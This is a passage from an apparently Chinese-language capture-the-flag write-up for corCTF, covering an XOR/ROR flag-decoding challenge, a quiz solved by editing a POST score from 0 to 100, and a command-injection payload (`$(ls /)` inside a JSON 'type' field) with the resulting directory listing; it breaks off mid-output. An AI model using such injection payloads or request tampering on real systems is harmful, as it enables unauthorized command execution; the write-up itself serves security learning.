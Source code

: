 ROR 後的結果:
```
corctf{3mbr4c3,3xtñ.K	ñªËá.SÃáÁ+aaá.
```

可以看到前半部分是正確的，但是後面有一些亂碼

從 defined strings 處可以看到這一條提示

```!
Well done! Sadly, Linus Torvalds has embraced, extended and extinguished the other half of the flag :(

$Incorrect :(

$Well done! Sadly, Microsoft has embraced, extended and extinguished the other half of the flag :(
Incorrect :(
```

因此，前面部分只是 flag 的一半

通靈出另一半的 flag 使用 xor 來解讀，使用 `d` (13)作為 key，結果如下:

```
aàCa.Ábk AC.ak.k..3nd,3Xt1ngu15h!!1}
```

各取一半的文字，完整的 flag 如下:

```
corctf{3mbr4c3,3xt3nd,3Xt1ngu15h!!1}
```

## [done] web/jsonquiz

1. 隨便按直到進入結算頁面
2. 修改POST內容從score=0變100
![](https://i.imgur.com/ttctXOt.png)
corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}

## [X] web/msfrog-generator

[別人的解法](https://writeups.iamlucian.cz/#:~:text=MsFrog)

修改 payload: `"type":"$(ls /):/"`

此時會回傳如下的東西

```!
Something went wrong :
b"convert-im6.q16: unable to open image `img/app': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: no decode delegate for this image format `' @ error/constitute.c/ReadImage/575.\nconvert-im6.q16: unable to open image `bin': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: unable to open image `bin': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: no decode delegate for this image format `' @ error/constitute.c/ReadImage/575.\nconvert-im6.q16: unable to open image `boot': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: unable to open image `boot': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: no decode delegate for this image format `' @ error/constitute.c/ReadImage/575.\nconvert-im6.q16: unable to open image `dev': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: unable to open image `dev': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: no decode delegate for this image format `' @ error/constitute.c/ReadImage/575.\nconvert-im6.q16: unable to open image `etc': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: unable to open image `etc': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: no decode delegate for this image format `' @ error/constitute.c/ReadImage/575.\nconvert-im6.q16: unable to open image `flag.txt': No such file or directory @ error/blob.c/OpenBlob/2924.\nconvert-im6.q16: unable to open image `flag.txt': No such file or directory @
...
```

